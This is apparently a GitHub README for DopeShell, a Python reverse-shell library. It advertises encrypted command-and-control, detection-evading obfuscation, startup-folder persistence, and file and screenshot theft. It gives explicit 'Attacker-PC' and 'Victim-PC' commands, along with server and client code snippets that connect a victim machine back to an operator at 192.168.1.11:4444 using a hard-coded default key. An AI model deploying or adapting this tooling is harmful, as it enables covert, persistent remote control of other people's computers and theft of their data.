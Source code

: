 # **DopeShell**
![Static Badge](https://img.shields.io/badge/Python-3.12.5-orange)
![Static Badge](https://img.shields.io/badge/License-MIT-white)
![Static Badge](https://img.shields.io/badge/PyPi-1.1.1-green)
## **Introduction**

**DopeShell** is a Python library designed to simplify the creation of secure reverse shells with advanced features like session management, encryption, multiple connections, and obfuscation techniques. This library provides an easy-to-use interface for setting up both the client and server sides of a reverse shell, with the ability to manage multiple sessions, simulate command-line prompts, and more.

## **Features**

- **Encrypted Communication**: Utilizes AES encryption to secure data transmitted between the client and server.
- **Session Management**: Handles multiple active sessions and allows the server operator to switch between them.
- **Command Prompt Simulation**: The reverse shell simulates the target's command-line interface, making it appear as if the commands are being executed locally.
- **Obfuscation Techniques**: Implements basic obfuscation to avoid detection by security systems.
- **Customizable**: Easily configure host, port, and encryption key via command-line arguments.
- **Persistence**: Easily set up persistence by saving a batch file in the startup folder to ensure reconnection on boot
- **Useful commands**: Provides useful commands like download, upload, screenshot to enhance interactivity of the shell

## **Directory Structure**

The project is organized as follows:
- **setup.py**: Contains the package configuration for installation.
- **README.md**: This documentation file.
- **LICENSE**: The project's license file.
- **dopeshell/**: The main package directory containing the server and client scripts.

## **Installation**

### **Prerequisites**

- **Python 3.7+**
- **pip** (Python package manager)

### **Installing DopeShell**

You can install `DopeShell` using `pip`:

```bash
pip install DopeShell
```

### **Building DopeShell**
If you want to build it yourself, you can use the following commands:
```
1. git clone https://www.github.com/anonymous300502/DopeShellPyPi
2. python setup.py sdist bdist_wheel
3. pip install dist/DopeShell-1.1.1-py3-none-any.whl (Replace the .whl file with the file in your dist directory)
```


## **Usage Instructions:**
#### **On the Attacker-PC, Run the following commands:**
```bash
dopeshell-server --host 192.168.1.11 --port 4444 --key "myverystrongpasswordo32bitlength"
```
*Note:*<br>
- Dopeshell uses "myverystrongpasswordo32bitlength" as the default key so you can skip the --key argument if you wish to use the default key, but we recommend using your own custom key which should be **32 bits** long.
- If you omit the --host and --port arguments, It uses '0.0.0.0' as the default IP address and '4444' as the default port.

#### **On the Victim-PC, Run the following commands:**
```bash
dopeshell-client --server-ip 192.168.1.11 --port 4444 --key "myverystrongpasswordo32bitlength"
```
*Note:*<br>
- The server ip and port arguments are **required** here, If a custom key was used in the server it should be mentioned using the --key argument. If a custom key is not used in the server side startup command, It will use the default key automatically.

### **Usage commands:**
- switch NUMBER [To switch between available sessions]
- exit [To exit the session] <br><br><br>
- persist [Set up persistence to enusre connection on reboot]<br><br><br>

*Image1- initializaiton*
![Runing server](https://raw.githubusercontent.com/manaswii/DopeShellPyPi/main/screenshots/running.png)
*Image2- Running commands*
![basic_usage_1](https://raw.githubusercontent.com/manaswii/DopeShellPyPi/main/screenshots/basic_usage_1.png)<br><br><br>
*Image3- Switching between sessions* <br>
![basic_usage_2](https://raw.githubusercontent.com/manaswii/DopeShellPyPi/main/screenshots/improved_exit_and_switch.png)<br><br><br>
*Image4- Setting up persistence* <br>
![presist](https://raw.githubusercontent.com/manaswii/DopeShellPyPi/main/screenshots/persistence.png)<br><br><br>
*Image5- In-Shell commands* <br>
![commands](https://raw.githubusercontent.com/manaswii/DopeShellPyPi/main/screenshots/commands.png)

### **Here are sample snippets if you wish to use the library in your own code:**
- test_server.py
```python
from DopeShell import DopeShellServer

key = b'myverystrongpasswordo32bitlength'

server = DopeShellServer('0.0.0.0', 4444, key)
server.run()
```
- test_client.py
```python
from DopeShell import DopeShellclient

key = b'myverystrongpasswordo32bitlength'

server = DopeShellclient('192.168.1.11', 4444, key)
server.run()

```

### **Contributing**
- Contributions are welcome! To contribute:
- Fork the repository.
- Create a new branch for your feature/bugfix.
- Write tests for your changes.
- Submit a pull request.
- Please ensure your code adheres to the project's coding standards.


### **License**
This project is licensed under the MIT License. See the LICENSE file for details.

### **Contributors:**<br>
[Manaswi Sharma](https://www.github.com/manaswii)

### **Contact Information**
For issues, questions, or suggestions, please contact:

Email: 170mailmea@gmail.com<br>
GitHub: https://github.com/anonymous300502
